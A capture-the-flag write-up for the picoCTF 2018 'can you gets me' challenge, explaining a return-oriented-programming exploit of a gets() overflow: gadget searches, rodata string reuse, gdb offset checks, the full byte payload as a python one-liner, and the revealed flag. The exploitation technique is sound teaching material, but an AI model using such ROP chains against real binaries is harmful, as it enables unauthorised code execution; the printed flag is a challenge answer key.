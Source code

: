 ```yaml
---
layout: posts
title:  Pico CTF 2018 - CorCan you gets me ?
date:   2018-09-27
categories: [CTFs, pico18]
---
```


[~$ cd ..](/ctfs/pico18/2018/09/27/index.html)


>Can you exploit the following program to get a flag?
>You may need to think return-oriented if you want to program your way to the flag.
>You can find the program in /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d on the shell server. Source.

We are given the source of a vulnerable program, as well as the binary:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 16
>
>void vuln() {
>	char buf[16];
>	printf("GIVE ME YOUR NAME!\n");
>	return gets(buf);
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>	vuln();
>
>}
> ```

**TL; DR: It's a classical ROP attack**

## The payload

Knowing that the ASLR is enabled, that the stack is not executable and according to the simplicity of this program, we guessed, and it was confirmed
by a hint, that we had to exploit it using a Return-Oriented-Programming.

What is this ?

ROP-attack is a well-known and powerful way to exploit binaries, which is able to bypass ASLR and doesn't require any shellcode. The idea is quite simple: by chaining
some small groups of instructions, whe can build a valid longest series of instructions which can finally behave like a shellcode. These small groups are called "gadgets", and
they have to end with the instruction `ret`. Therefore, we can easily chain them on the top of the stack.

To find these gadgets, we used to 0vercl0k's tool: [rp](https://github.com/0vercl0k/rp/downloads)

Well, but which gadgets do we need ?
The man idea is to execute something like `execve("/bin/sh", NULL, NULL)`. To succeed, with then need to have the following values:
* `$eax=0xb`, 0xb begin the syscall code we expect
* `$ebx` contains the address of "/bin/sh"
* `$ecx=NULL` the arguments to pass to the command (don't care)
* `$edx=NULL` the address of the environment variables (don't care)

To obtain the expected setting, we will push the values onto the stack and then pop them into registers. The outline of the payload is therefore:

* fill the buffer
* @gadget(pop eax; ret)
* 11
* @gadget(pop ebx; ret)
* @"/bin/sh"
* @gadget(pop ecx; ret)
* 0
* @gadget(pop edx; ret)
* 0
* interrupt

Indeed, these values will be placed on the top of the stack as `vuln` ends, that's the reason why we need to pop them.

### Address of "/bin/sh"

"/bin/sh" doesn't appear in the program, and we have to find a way to execute the expected command. To get around the problem, we decided to create our own command
and to use a constant string in `rodata`:

> ```sh
>% readelf -x .rodata ./gets|head -n 20
>
>Vidange hexadécimale de la section « .rodata » :
>0x080bb320 03000000 01000200 47495645 204d4520 ........GIVE ME
>0x080bb330 594f5552 204e414d 4521002e 2e2f6373 YOUR NAME!.../cs
>0x080bb340 752f6c69 62632d73 74617274 2e630046 u/libc-start.c.F
>0x080bb350 4154414c 3a206b65 726e656c 20746f6f ATAL: kernel too
>0x080bb360 206f6c64 0a000000 5f5f6568 64725f73  old....__ehdr_s
>0x080bb370 74617274 2e655f70 68656e74 73697a65 tart.e_phentsize
>0x080bb380 203d3d20 73697a65 6f66202a 474c2864  == sizeof *GL(d
>0x080bb390 6c5f7068 64722900 46415441 4c3a2063 l_phdr).FATAL: c
>0x080bb3a0 616e6e6f 74206465 7465726d 696e6520 annot determine
>0x080bb3b0 6b65726e 656c2076 65727369 6f6e0a00 kernel version..
>0x080bb3c0 756e6578 70656374 65642072 656c6f63 unexpected reloc
>0x080bb3d0 20747970 6520696e 20737461 74696320  type in static
>0x080bb3e0 62696e61 72790000 67656e65 7269635f binary..generic_
>0x080bb3f0 73746172 745f6d61 696e002f 6465762f start_main./dev/
>0x080bb400 66756c6c 002f6465 762f6e75 6c6c0000 full./dev/null..
>0x080bb410 7365745f 74687265 61645f61 72656120 set_thread_area
>0x080bb420 6661696c 65642077 68656e20 73657474 failed when sett
>0x080bb430 696e6720 75702074 68726561 642d6c6f ing up thread-lo
> ```

It's important here to choose a string ending with a null byte. We choose here the string "ull" located at `0x080bb40b`. We then had to create
a script named "ull" executing the expected command (i.e `cat` the flag)

## Find gadgets

We then used the program `rp-lin-x86` to find the expected gadgets:

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop eax"
>0x080d244e: pop eax ; call dword [edi+0x4656EE7E] ;  (1 found)
>0x0809ca62: pop eax ; jmp dword [eax] ;  (4 found)
>0x080b81c6: pop eax ; ret  ;  (1 found)
>```

Gadget `pop $eax`: **0x080b81c6**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ebx"
>0x080505a3: pop ebx ; jmp eax ;  (6 found)
>0x0804cec7: pop ebx ; rep ret  ;  (1 found)
>0x080481c9: pop ebx ; ret  ;  (181 found)
>0x080d353c: pop ebx ; retn 0x06F9 ;  (1 found)
> ```

Gadget `pop $ebx`: **0x080481c9**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ecx"
>0x080de955: pop ecx ; ret  ;  (1 found)
> ```

Gadget `pop $ecx`: **0x080de955**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop edx"
>0x0806f02a: pop edx ; ret  ;  (2 found)
> ```

Gadget `pop $edx`: **0x0806f02a**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "int 0x80"
>0x0806cc23: add byte [eax], al ; int 0x80 ;  (3 found)
>0x0806cc25: int 0x80 ;  (8 found)
>0x0806f630: int 0x80 ; ret  ;  (1 found)
>0x0806cc20: mov eax, 0x00000001 ; int 0x80 ;  (1 found)
>0x0807a9d9: mov eax, 0x00000077 ; int 0x80 ;  (1 found)
>0x0807a9d0: mov eax, 0x000000AD ; int 0x80 ;  (1 found)
>0x0806f62f: nop  ; int 0x80 ;  (1 found)
>0x0806cc1f: or byte [eax+0x00000001], bh ; int 0x80 ;  (1 found)
>0x080b6ed7: push es ; int 0x80 ;  (1 found)
> ```

Gadget `int 0x80`: **0x0806f630**

And finally, the payload becomes:

* 0x080b81c6 ;pop eax
* 0x0000000b ;execve syscall
* 0x080481c9 ;pop ebx
* 0x080bb40b ;"ull"
* 0x080de955 ;pop ecx
* 0x00000000 ;NULL
* 0x0806f02a ;pop edx
* 0x00000000 ;NULL
* 0x0806f630 ;interrupt

## Fill the buffer

By sending some 'A's and breaking after the call the `gets`, we can see that 28 bytes are needed to fill the buffer:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd198	0xffffd198
>gdb-peda$ x/30wx $esp
>0xffffd170:	0xffffd180	0x080eaf84	0x00000000	0x080481a8
>0xffffd180:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd190:	0x41414141	0x00000300	0xffffd1b8	0x080488e9
>0xffffd1a0:	0x080ea00c	0x00000045	0x00001000	0x000003e8
>0xffffd1b0:	0x080ea070	0xffffd1d0	0x00001000	0x08048b21
>0xffffd1c0:	0x080ea00c	0x00000045	0x00001000	0x08048b21
>0xffffd1d0:	0x00000001	0xffffd294	0xffffd29c	0xffffd1f4
>0xffffd1e0:	0x00000000	0x00000001
> ```

Let's feed the stdin with the payload and break at the end of `vuln`:

> ```
>gdb-peda$ x/12wx $esp
>0xffffd19c:	0x080b81c6	0x0000000b	0x080481c9	0x080bb40b
>0xffffd1ac:	0x080de955	0x00000000	0x0806f02a	0x00000000
>0xffffd1bc:	0x0806f630	0x080ea000	0x00000045	0x00001000
> ```

Perfect!

## Exploit

Since the command "ull" is not a regular command we need to create it:

```bash
% cd /tmp
% nano ull
	#!/bin/sh
	cat /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/flag.txt
% chmod +x ull
% export PATH=/tmp:$PATH
% python -c "print 'A' * 28 + '\xc6\x81\x0b\x08\x0b\x00\x00\x00\xc9\x81\x04\x08\x0b\xb4\x0b\x08\x55\xe9\x0d\x08\x00\x00\x00\x00\x2a\xf0\x06\x08\x00\x00\x00\x00\x30\xf6\x06\x08'" | /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/gets
```

FLAG: **picoCTF{rOp_yOuR_wAY_tO_AnTHinG_700e9c8e}**
